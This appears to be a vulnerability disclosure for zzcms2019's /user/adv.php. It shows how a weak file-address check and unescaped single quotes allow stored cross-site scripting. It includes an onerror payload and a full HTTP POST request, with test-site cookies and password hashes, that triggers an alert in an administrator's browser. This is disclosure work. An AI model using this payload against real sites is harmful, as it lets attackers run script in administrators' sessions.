



# /user/adv.php

Edition: zzcms2019 /user/adv.php

## 0x01 Vulnerability

Get the `modify` parameter with the `request` method
```
if ($action=="modify"){
    checkstr($img,"upload");//入库前查上传文件地址是否合格
    checkstr($oldimg,"upload");//入库前查上传文件地址是否合格
    query("update zzcms_textadv set adv='$adv',company='$company',advlink='$advlink',img='$img',passed=0 where username='".$_COOKIE["UserName"]."'");
```

Which is called vulnerable parameter `$img`

Enter the `checkstr($img,"upload");` function

```
function checkstr($str,$kind,$msg='',$back_url='back'){
    if ($str<>''){
        switch ($kind){
        ...
        case "upload";//用于引用网络图片地址和视频地址的上传页
        	if (strpos("gif|jpg|peg|png|bmp|flv|swf",strtolower(substr($str,-3)))===false){
        	showmsg($msg.$str."不支持的上传文件格式。支持的文件格式为（gif|jpg|png|bmp|flv|swf）",$back_url);
        	}
        	if (substr($str,0,4)<>"http" && $str<>"/image/nopic.gif"){
        		if (strpos($str,'/uploadfiles')===false){
        		showmsg($msg.$str."不支持的上传文件地址",$back_url);
        		}
        	}
        break;	
        }
    }
}
```

This function only judges the suffix name and the first four bits.
So we can construct payload.

```
http:' onerror=alert(1) alt='1.jpg
```
In this way, the detection of functions can be bypassed.

Although the global filter file is also loaded.`/inc/stopsqlin.php`

```
function zc_check($string){
	if(!is_array($string)){
		if(get_magic_quotes_gpc()){
	 	return htmlspecialchars(trim($string));
		}else{
		return addslashes(htmlspecialchars(trim($string)));
		}
	 }
	foreach($string as $k => $v) $string[$k] = zc_check($v);
	return $string;
}
	
if($_REQUEST){
	$_POST =zc_check($_POST);
	$_GET =zc_check($_GET);
	$_COOKIE =zc_check($_COOKIE);
	@extract($_POST);
	@extract($_GET);	
}
```

`htmlspecialchars` function does not escape single quotes by default.

So you can't defend against single quotation closure.

The complete package is as follows.

```
POST /user/adv.php?action=modify HTTP/1.1
Host: www.testzzcms.com
Content-Length: 200
Cache-Control: max-age=0
Origin: http://www.testzzcms.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36 SE 2.X MetaSr 1.0
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://www.testzzcms.com/user/adv.php
Accept-Language: zh-CN,zh;q=0.8
Cookie: admin=admin; pass=21232f297a57a5a743894a0e4a801fc3; bdshare_firstime=1555068916100; PHPSESSID=70imo2hba2vg0b12n65rngv277; UserName=testxss; PassWord=19a811d71d1df1dd8ef14374949b4409; __tins__713776=%7B%22sid%22%3A%201556018030370%2C%20%22vd%22%3A%205%2C%20%22expires%22%3A%201556019863811%7D; __51cke__=; __51laig__=10
Connection: close

adv=%E6%B5%8B%E8%AF%95&advlink=%2Fzt%2Fshow-1.htm&company=%E6%B5%8B%E8%AF%95&oldimg=%2Fuploadfiles%2F2019-04%2F20190423195439950.jpg&img=http:1' onerror=alert(/xss/) alt='1.jpg&Submit22=%E4%BF%AE%E6%94%B9
```

When Administrators Access Advertisements -->Advertisements Users Apply for



He/She will be see a alert window which said /xss/



